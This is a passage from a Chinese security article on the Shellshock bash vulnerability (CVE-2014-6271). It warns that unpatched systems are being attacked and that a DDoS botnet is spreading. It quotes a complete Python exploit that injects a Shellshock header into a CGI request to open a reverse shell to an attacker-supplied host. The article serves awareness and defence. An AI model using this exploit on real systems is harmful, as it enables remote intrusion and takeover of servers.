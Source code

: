 这个漏洞引起的故事并没有因为补丁而结束，因为这个星球上有太多人不会那么 care 这个漏洞，也就是说他们不会即时的去打补丁，而从攻击者的一方而言，从漏洞公开已经出现了很多类似：

```
------------------------------------------------------------------------
    #
    #CVE-2014-6271 cgi-bin reverse shell
    #

    import httplib,urllib,sys

    if (len(sys.argv)<4):
            print "Usage: %s <host> <vulnerable CGI> <attackhost/IP>" % sys.argv[0]
            print "Example: %s localhost /cgi-bin/test.cgi 10.0.0.1/8080" % sys.argv[0]
            exit(0)

    conn = httplib.HTTPConnection(sys.argv[1])
    reverse_shell="() { ignored;};/bin/bash -i >& /dev/tcp/%s 0>&1" % sys.argv[3]

    headers = {"Content-type": "application/x-www-form-urlencoded",
            "test":reverse_shell }
    conn.request("GET",sys.argv[2],headers=headers)
    res = conn.getresponse()
    print res.status, res.reason
    data = res.read()
    print data
------------------------------------------------------------------------ 
```

的工具，Shellshock 比 heartbleed 更容易自动化的去攻击目标，漏洞本身的特性带来了最糟糕的情况就是蠕虫的产生，这种担心已经得到了证实：

https://gist.github.com/anonymous/929d622f3b36b00c0be1

虽然目前的样本不是蠕虫，但很明显，僵尸网络的狂欢已经开始，从目前样本的情况看，这是一个有 C&C 功能的 botnet，"她"会先寻找 busybox 的目标，然后尝试入侵目标机，之后尝试提权，这个恶意软件主要目的是利用肉鸡来 DDOS，攻击者的下一个目标将会是 WEB。

通常来讲，一个漏洞曝光到自动化利用会在 24 小时内完成，所以各位抓紧时间打补丁。

[[1] BASH](http://www.gnu.org/software/bash/) [[2] Bash specially-crafted environment variables code injection attack](https://securityblog.redhat.com/2014/09/24/bash-specially-crafted-environment-variables-code-injection-attack/) [[3] CVE-2014-6271](http://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2014-6271) [[4] CVE-2014-7169](http://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2014-7169) [[5] CVE-2014-6271: remote code execution through bash](http://seclists.org/oss-sec/2014/q3/651)

版权声明：未经授权禁止转载 [insight-labs](http://drops.wooyun.org/author/insight-labs "由 insight-labs 发布")@[乌云知识库](http://drops.wooyun.org)

分享到：

### 相关日志

*   [Shellshock 漏洞回顾与分析测试](http://drops.wooyun.org/papers/3268)
*   [Easy RM to MP3 Converter(2.7.3.700)栈溢出漏洞调试笔记](http://drops.wooyun.org/papers/3178)
*   [PHP 绕过 open_basedir 列目录的研究](http://drops.wooyun.org/tips/3978)
*   [One git command may cause you hacked(CVE-2014-9390)](http://drops.wooyun.org/papers/4386)
*   [CVE 2015-0235: GNU glibc gethostbyname 缓冲区溢出漏洞](http://drops.wooyun.org/papers/4780)
*   [PHP WDDX Serializier Data Injection Vulnerability](http://drops.wooyun.org/tips/3911)